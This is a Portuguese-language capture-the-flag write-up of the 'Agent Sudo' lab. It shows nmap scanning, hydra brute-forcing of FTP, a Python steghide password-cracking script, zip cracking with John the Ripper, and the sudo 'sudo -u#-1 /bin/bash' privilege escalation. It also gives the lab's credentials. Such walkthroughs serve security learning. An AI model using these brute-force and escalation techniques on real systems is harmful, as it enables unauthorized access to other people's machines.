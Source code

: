 # _**Agent SUDO CTF**_
![](agent_sudo.jpg)

## _**Enumeração**_
Primeiro, um scan com <mark>Nmap</mark> para determinar versões e quais portas estão abertas
> ```bash
> nmap -p 0-20000 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Acessando o endereço da página, temos a seguinte mensagem  

![](agent_access.jpg)

Assumindo que para acessar a verdadeira página, é preciso de uma das letras do alfabeto, buscamos por cada uma através do comando ```cURL``` e uma em específico chama a atenção
> ``` bash
> curl -A “C” -L [ip_address]
> ```
![](curl_return.jpg)

## _**Ganhando acesso**_
O nome identificado é <mark>chris</mark>, e sua senha é fraca  
Vamos realizar um teste de força bruta em _ftp_ e _ssh_ com seu nome. Para isso, utilizamos a ferramenta <mark>hydra</mark>  
> ```bash
> hydra -l chris -P ../wordlists/rockyou.txt -t 4 ftp
> ```
![](hydra_return.jpg)

Vamos realizar login via _ftp!_
Listando os arquivos com ```ls```, conseguimos encontrar um arquivo: <mark>To_agentJ.txt</mark>  

![](agent_j.jpg)

Então, extrai-se as imagens encontradas no diretório de chris com ```wget```  
Ao tentar usar <mark>steghide</mark> para acessar a senha contida na imagem extraída (.jpg), é requerido uma senha  
Para isso, vamos utilizar este script em python para tentar realizar um ataque de força bruta contra essa senha  
``` bash
import subprocess

imagem = "imagem.jpg"
wordlist = "rockyou.txt"

with open(wordlist, "r", encoding="latin-1") as f:
	for senha in f:
    	senha = senha.strip()
    	if not senha:
        	continue
    	print(f"[*] Testando senha: {senha}")
    	try:
        	result = subprocess.run(
            	["steghide", "extract", "-sf", imagem, "-p", senha, "-f"],
            	stdout=subprocess.PIPE,
            	stderr=subprocess.PIPE,
            	text=True
        	)
        	# Verifica saída (steghide retorna mensagem no stderr se falhar)
        	if "wrote extracted data" in result.stdout.lower():
            	print(f"\n[V] SENHA ENCONTRADA: {senha}")
            	break
    	except Exception as e:
        	print(f"[!] Erro: {e}")
```

Após nenhum retorno, procuram-se outros meios
Uma ferramenta chamada <mark>binwalk</mark> pode extrair arquivos escondidos de dentro de imagens. Vamos usar o comando abaixo  
> ```bash
> binwalk -e [nome_arquivo]
> ```  
Temos 3 saídas  
* 365  
* 365.zlib  
* 8702.zip   

Primeiro, extraímos o conteúdo _.zip_  
Está bloqueado por senha  
Vamos tentar realizar um brute-force nessa senha com <mark>John the ripper</mark>  

![](zip_extract.jpg)

A senha foi descoberta!  
Agora, extraímos o seu conteúdo  
Temos um arquivo: <mark>To_agentR.txt</mark>  

![](agent_c.jpg)

A imagem que eles querem enviar é para algum lugar
Buscando o que significam essas letras, temos <mark>base64</mark>
> ```bash
> echo ‘QXJlYTUx’ | base64 -d
> ```

<mark>Area51</mark> pode significar muitas coisas  
Estamos procurando por uma senha para extrair o conteúdo de <mark>cute-alien.jpg</mark>  
Vamos tentar  

![](cute_alien.jpg)

O nome do agente J é: <mark>james</mark>  
E sua senha: <mark>hackerrules</mark>  
Vamos tentar realizar login via SSH na conta de james  

![](ssh_login.jpg)

Listando seus arquivos com ```ls```, temos uma imagem _.jpg_ e _userflag.txt_  
O arquivo .txt não está criptografado, garantindo uma flag  
Utilizando o comando ```scp```, extraímos a imagem para nossa máquina local
> ```bash
> scp james@[ip_address]:/home/james/Alien_autospy.jpg
> ```
![](scp_extract.jpg)

A imagem é relacionada ao caso Roswell, mais conhecido como <mark>Roswell Alien Autopsy</mark>  

## _**Escalando privilégios**_
Para conseguirmos escalar privilégios a partir da conta de james, vamos verificar o que ele pode executar como sudo através do comando abaixo
> ```bash
> sudo -l
> ```

Temos o seguinte retorno
_**Matching Defaults entries for james on agent-sudo: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin**_  
_**User james may run the following commands on agent-sudo: (ALL, !root) /bin/bash**_  

Parece que james não tem permissão para executar <mark>/bin/bash</mark> como _root_, pois temos um <mark>!root</mark>  
No entanto, isso parece estranho, pois o primeiro _**all**_ significa que nosso usuário pode executar <mark>/bin/bash</mark> como qualquer usuário  
Vamos pesquisar no google por (ALL, !root) vulnerabilities  
Achamos o seguinte caso  

![](exploit_db.jpg)

Ao utilizar o comando abaixo, o _**sudo**_ não verifica a existência do ID do usuário especificado e executa com um ID de usuário arbitrário com o privilégio _**sudo**_
> ```bash
> sudo -u#-1 /bin/bash
> ```
![](sudo_esc.jpg)

Basta então buscar a flag root!
![](root_flag.jpg)

Para o nome do agente R, basta ver quem é o criador da sala (deskel)

